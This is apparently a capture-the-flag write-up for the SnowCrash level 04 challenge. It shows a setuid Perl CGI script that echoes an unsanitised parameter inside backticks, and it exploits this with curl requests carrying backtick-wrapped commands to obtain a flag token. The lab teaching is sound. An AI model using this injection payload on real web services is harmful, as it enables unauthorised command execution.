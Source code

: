 # Level 04

## Vulnerability

Privilege escalation - CGI code injection

## Context

In our home directory, we find a binary
```
level04@SnowCrash:~$ ls -l
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```

## Solution

Here we see that when we run this Perl script, we run it with owner ```flag04``` permissions (setuid bit 's'). We don't have the permissions to run getflag directly, but maybe we can get this Perl script to run getflag for us.

Let's investigate the script.
```
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747                        ## port hint
use CGI qw{param};                      ## set up a Common Gateway Interface
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;                 ## print the output of the echo command, command substitution (backticks)
}
x(param("x"));                          ## Accept one argument "x"
```
So we should run this script with one argument "x". Lets try an example.
```
level04@SnowCrash:~$ ./level04.pl x="whoami"
whoami
```
If we use backtick notation, we can pass a command and ensure it's run and its output captured and echoed.
```
level04@SnowCrash:~$ ./level04.pl x=`whoami`
level04
```
Lets try running it on port 4747 as suggested.
```
level04@SnowCrash:~$ curl '{VM_IP}:4747/level04.pl?x=`whoami`'
flag04
```
Great, now we are executing as flag04. lets try executing getflag.
```
level04@SnowCrash:~$ curl '{VM_IP}:4747/level04.pl?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
